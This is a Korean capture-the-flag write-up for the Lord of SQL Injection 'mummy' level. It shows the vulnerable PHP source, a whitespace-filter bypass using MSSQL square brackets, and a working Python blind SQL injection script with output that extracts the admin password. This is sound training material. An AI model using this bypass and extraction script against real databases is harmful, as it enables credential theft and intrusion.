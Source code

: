 ```yaml
---
title: "[Lord of SQL Injection] LoS - mummy 문제풀이"
date: 2019-08-03
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


이제 거의 다 정리 해 간다.
앞으로 5문제만 더 정리하면 `LoS`에 대한 풀이는 모두 정리가 끝난다.
다음 문제 이름은 `mummy`이다.

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------
query : select
---------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = mssql_connect("mummy");
  if(preg_match('/master|sys|information|;|\(|\//i', $_GET['query'])) exit("No Hack ~_~");
  for($i=0;$i<strlen($_GET['query']);$i++) if(ord($_GET['query'][$i]) <= 32) exit("%01~%20 can used as whitespace at mssql");
  $query = "select".$_GET['query'];
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result[0]) echo "<h2>Hello anonymous</h2>";

  $query = "select pw from prob_mummy where id='admin'";
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result['pw'] === $_GET['pw']) solve("mummy");
  highlight_file(__FILE__);
?>
```

이번 문제도 `id='admin'`일 때의 정확한 `pw`의 값을 알아야 하는 `Blind SQL Injection` 문제이다.
그런데 중간에 보면 다음과 같은 코드가 있다.  

```php
for($i=0;$i<strlen($_GET['query']);$i++) if(ord($_GET['query'][$i]) <= 32)exit("%01~%20 can used as whitespace at mssql");
```

즉, 아스키코드표의 `0x01 ~ 0x20`까지 쓸 수 없다는 것인데, 문제는 이 범위 안에 `Tab(0x09)`, `Line Feed(0x0a)`, `Vertical Tab(0x0b)`, `Carriage Return(0x0d)`, `Space(0x20)`가 모두 들어있다는 것이다.
때문에 쿼리문에서 필수적인 `Whitespace` 문자를 모두 사용할 수가 없다.
그래서 인터넷을 뒤지다가 `[]`를 사용하면 된다는 글을 봤다.
지금 다시 찾으려고 하니 도저히 못찾겠는데, 그땐 있었다.
그때의 나는 검색 능력이 지금보다 뛰어났었나보다 ㅎㅎ
쨌든 `[]`는 아래처럼 사용하면 된다.  

```plain
select'1'from[table]where[column]='a'
```

그래서 문제를 풀기 위해서 위의 `[]`를 이용 해 아래와 같이 소스코드를 구현했다.  

```python
import requests

flag = ""
length = 20

url = "https://los.rubiya.kr/chall/mummy_2e13c2a4483d845ce2d37f7c910f0f83.php?query="
session = dict(PHPSESSID = "YOUT SESSION ID")

print "[+] Start"

print "[+] Find password"

end = False

for j in range(1, length + 1):
        for i in range(48, 128):
                try:
                        query = url + "'1'from[prob_mummy]where[id]='admin'and[pw]like'" + flag + chr(i) + "%'"
                        r = requests.post(query, cookies=session)
                except:
                        print "[-] Error occur"
                        continue

                if 'Hello anonymous' in r.text:
                        flag += chr(i)
                        print "[+] Found " + str(j), ":", flag
                        break
                if i == 127:
                        print "[+] Maybe it's end"
                        end = True
                        break
        if end == True:
                break

print "[+] Found password : ", flag
print "[+] End"
```

그 결과 아래와 같이 결과값을 얻을 수 있다.  

```bash
$ python ex.py 
[+] Start
[+] Find password
[+] Found 1 : 0
[+] Found 2 : 0C
[+] Found 3 : 0C3
[+] Found 4 : 0C3C
[+] Found 5 : 0C3CC
[+] Found 6 : 0C3CC2
[+] Found 7 : 0C3CC24
[+] Found 8 : 0C3CC245
[+] Maybe it's end
[+] Found password :  0C3CC245
[+] End
```

나온 결과값에서 알파벳을 소문자로 바꾸어 아래와 같이 입력하면 문제를 풀 수 있다.  

```plain
?pw=0c3cc245
```

---

```php
--------------------------------
query : select
--------------------------------

MUMMY Clear!

<?php
  include "./config.php";
  login_chk();
  $db = mssql_connect("mummy");
  if(preg_match('/master|sys|information|;|\(|\//i', $_GET['query'])) exit("No Hack ~_~");
  for($i=0;$i<strlen($_GET['query']);$i++) if(ord($_GET['query'][$i]) <= 32) exit("%01~%20 can used as whitespace at mssql");
  $query = "select".$_GET['query'];
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result[0]) echo "<h2>Hello anonymous</h2>";

  $query = "select pw from prob_mummy where id='admin'";
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result['pw'] === $_GET['pw']) solve("mummy");
  highlight_file(__FILE__);
?>
```

---

```plain
MUMMY Clear!!
```